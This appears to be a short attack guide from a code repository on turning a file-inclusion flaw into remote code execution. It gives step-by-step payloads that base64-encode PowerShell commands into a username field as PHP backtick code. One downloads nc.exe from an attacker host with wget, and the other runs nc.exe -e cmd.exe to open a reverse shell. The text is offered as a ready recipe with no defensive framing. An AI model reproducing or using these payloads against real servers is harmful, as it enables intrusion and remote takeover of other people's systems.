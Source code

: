 ### REQUIREMENTS: Confirm that the server is vulnerable to Remote File Inclusion/Local File Inclusion

### STEPS:

#### 1) Create a new user in the app inserting our encoded payload as the username value:

#### echo "wget http://ATTACK_IP/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t UTF-16LE | base64

#### 2) The final username value payload becomes: <<?=`powershell /enc ENCODED_PAYLOAD`?

#### 3) Abuse the LFI/RFI vulnerability to make the command execute on the server.

#### 4) Create another user with: echo "C:\Windows\TEMP\nc.exe -e cmd.exe IP_ADDRESS PORT" | iconv -t UTF-16LE | base64"

#### 5) Repeat steps to get your reverse shell.

### Similar approach can be used on a linux machine as well
